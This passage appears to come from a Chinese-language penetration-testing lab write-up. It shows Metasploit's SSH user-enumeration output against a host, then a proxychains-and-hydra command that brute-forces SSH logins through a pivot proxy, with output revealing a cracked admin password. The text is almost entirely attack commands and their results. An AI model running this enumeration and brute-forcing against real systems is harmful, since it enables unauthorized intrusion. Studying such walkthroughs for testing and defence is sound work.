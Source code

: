 msf auxiliary(ssh_enumusers) > run
[*] 7.7.7.20:22 - SSH - Checking for false positives
[*] 7.7.7.20:22 - SSH - Starting scan
[+] 7.7.7.20:22 - SSH - User 'admin' found
[-] 7.7.7.20:22 - SSH - User 'root' not found
[-] 7.7.7.20:22 - SSH - User 'Administrator' not found
[+] 7.7.7.20:22 - SSH - User 'sysadm' found
[-] 7.7.7.20:22 - SSH - User 'tech' not found
[-] 7.7.7.20:22 - SSH - User 'operator' not found
[+] 7.7.7.20:22 - SSH - User 'guest' found
[-] 7.7.7.20:22 - SSH - User 'security' not found
[-] 7.7.7.20:22 - SSH - User 'debug' not found
[+] 7.7.7.20:22 - SSH - User 'manager' found
[-] 7.7.7.20:22 - SSH - User 'service' not found
[-] 7.7.7.20:22 - SSH - User '!root' not found
[+] 7.7.7.20:22 - SSH - User 'user' found
[-] 7.7.7.20:22 - SSH - User 'netman' not found
[+] 7.7.7.20:22 - SSH - User 'super' found
[-] 7.7.7.20:22 - SSH - User 'diag' not found
[+] 7.7.7.20:22 - SSH - User 'Cisco' found
[-] 7.7.7.20:22 - SSH - User 'Manager' not found
[+] 7.7.7.20:22 - SSH - User 'DTA' found
[-] 7.7.7.20:22 - SSH - User 'apc' not found
[+] 7.7.7.20:22 - SSH - User 'User' found
[-] 7.7.7.20:22 - SSH - User 'Admin' not found
[+] 7.7.7.20:22 - SSH - User 'cablecom' found
[-] 7.7.7.20:22 - SSH - User 'adm' not found
[+] 7.7.7.20:22 - SSH - User 'wradmin' found
[-] 7.7.7.20:22 - SSH - User 'netscreen' not found
[+] 7.7.7.20:22 - SSH - User 'sa' found
[-] 7.7.7.20:22 - SSH - User 'setup' not found
[+] 7.7.7.20:22 - SSH - User 'cmaker' found
[-] 7.7.7.20:22 - SSH - User 'enable' not found
[+] 7.7.7.20:22 - SSH - User 'MICRO' found
[-] 7.7.7.20:22 - SSH - User 'login' not found
[*] Caught interrupt from the console...
[*] Auxiliary module execution completed
^C
msf auxiliary(ssh_enumusers) >
</pre>
<p nodeIndex="108"><span nodeIndex="258">然后用hydra本地用msf模块开启的1080端口的sock4代理尝试爆破:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="109">
root@kali:~# proxychains hydra 7.7.7.20 ssh -s 22 -L /tmp/user.txt -P top100.txt -t 4
ProxyChains-3.1 (http://proxychains.sf.net)
Hydra v8.2 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting 
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 4 tasks per 1 server, overall 64 tasks, 20 login tries (l:2/p:10), ~0 tries per task
[DATA] attacking service ssh on port 22
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
|S-chain|-<>-172.16.0.20:1080-|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-7.7.7.20:22-|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK<><>-OK<><>-OK<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
[22][ssh] host: 7.7.7.20   login: admin   password: 123456
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
1 of 1 target successfully completed, 1 valid password found